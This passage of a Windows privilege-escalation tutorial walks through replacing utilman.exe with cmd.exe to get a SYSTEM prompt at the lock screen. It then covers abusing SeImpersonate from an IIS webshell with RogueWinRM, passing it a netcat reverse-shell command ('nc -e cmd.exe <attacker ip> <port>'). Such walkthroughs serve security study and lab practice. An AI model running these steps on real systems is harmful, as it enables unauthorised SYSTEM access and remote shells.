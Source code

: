 Now replace utilman.exe with command prompt

```bash
C:\Windows\System32\> copy cmd.exe utilman.exe

```

To trigger utilman, lock the screen from Start button:

<img width="392" height="239" alt="Screenshot 2025-08-16 180557" src="https://github.com/user-attachments/assets/933e8c32-edfe-4662-9b20-82d227421dd9" />

And proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

<img width="1071" height="303" alt="image" src="https://github.com/user-attachments/assets/2196031c-0a5e-4de4-9eca-e18ef2f69d80" />

<img width="1167" height="393" alt="Screenshot 2025-08-16 180829" src="https://github.com/user-attachments/assets/2683f2a0-73a5-41f0-a7cd-79ed03b6acc2" />

### **SeImpersonate / SeAssignPrimaryToken**

These privileges allow a process to impersonate another user (take their security context) and perform actions on their behalf. Example: An FTP server impersonates logged-in users to access their files without needing shared permissions.

If an attacker controls a process with these privileges, they can impersonate users who authenticate to that process (e.g., SYSTEM, admin accounts). Services running as **LOCAL SERVICE**, **NETWORK SERVICE**, or IIS application pools often have these privileges.

**Two Key Requirements for Successful Privilege Escalation via Impersonation:**

1. **The attacker must create a malicious process capable of accepting authenticated connections.**
    - This process must be able to impersonate users who connect to it (requiring **`SeImpersonate`** or **`SeAssignPrimaryToken`** privileges).
    - Example: A fake WinRM server, a rogue FTP service, or a named pipe listener.
2. **The attacker must trick or force a high-privileged account (e.g., SYSTEM or an admin) to authenticate to the malicious process.**
    - This can be done by:
        - Exploiting service behaviors (e.g., BITS auto-connecting to WinRM).

**Exploitation Steps:**

We have a webshell that runs on IIS. Check the privileges of the compromised website

<img width="869" height="358" alt="Screenshot 2025-08-16 182204" src="https://github.com/user-attachments/assets/cd704ec3-b088-4acf-9541-ad092d5489fd" />

<img width="1006" height="395" alt="Screenshot 2025-08-16 182223" src="https://github.com/user-attachments/assets/9236cbdc-f3af-4bb4-bb6a-aa526c818cc8" />

The target holds both required privileges **SeImpersonate** and **SeAssignPrimaryToken.** We will exploit these privileges with [RogueWinRM.exe](https://github.com/antonioCoco/RogueWinRM); this exploit abuses the **Background Intelligent Transfer Service (BITS)** in Windows to gain SYSTEM privileges. 

The exploit has been uploaded to the target. To start the exploit, we first need to set up our listener and pass these parameters to the exploit.

- `-p` specifies the executable to be run by the exploit, which is netcat
- `-a` pass the next argument to the executable (`nc -e cmd.exe <attacker ip> <port>`)
